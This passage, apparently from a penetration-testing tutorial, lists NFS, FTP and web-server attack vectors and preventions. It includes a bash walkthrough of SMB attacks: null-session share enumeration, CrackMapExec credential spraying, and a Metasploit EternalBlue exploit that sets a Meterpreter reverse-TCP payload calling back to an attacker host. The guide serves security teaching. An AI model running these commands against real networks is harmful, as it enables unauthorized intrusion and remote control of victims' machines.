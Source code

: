 2. **NFS Exploitation**:
   - Attack vectors: Misconfiguration, weak access controls
   - Vulnerabilities: No_root_squash, world-readable exports
   - Tools: Showmount, nfsshell, custom scripts
   - Techniques: Mount enumeration, unauthorized access
   - Prevention: Proper export configuration, access restrictions

3. **FTP Exploitation**:
   - Attack vectors: Anonymous access, clear-text credentials
   - Vulnerabilities: Outdated versions, misconfiguration
   - Tools: Hydra, Metasploit, custom scripts
   - Techniques: Brute force, anonymous access abuse
   - Prevention: SFTP, access restrictions, strong authentication

```bash
# Example: SMB exploitation techniques

# Step 1: Enumerate SMB shares
smbclient -L //192.168.1.100 -N
smbmap -H 192.168.1.100

# Step 2: Check for null sessions
smbclient //192.168.1.100/IPC$ -N

# Step 3: Access shares with discovered credentials
smbclient //192.168.1.100/Data -U 'domain\user%password'

# Step 4: Use CrackMapExec for SMB exploitation
crackmapexec smb 192.168.1.0/24 -u administrator -p 'password' --shares

# Step 5: Check for EternalBlue vulnerability
nmap --script smb-vuln-ms17-010 -p 445 192.168.1.100

# Step 6: Exploit EternalBlue with Metasploit
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
exploit
```

### 5.3 Web Service Exploitation

Attacking web servers and applications:

1. **Web Server Vulnerabilities**:
   - Attack vectors: Misconfiguration, outdated software
   - Vulnerabilities: Directory traversal, information disclosure
   - Tools: Nikto, Dirb, Metasploit
   - Techniques: Path manipulation, known CVE exploitation
   - Prevention: Patching, proper configuration, web application firewall
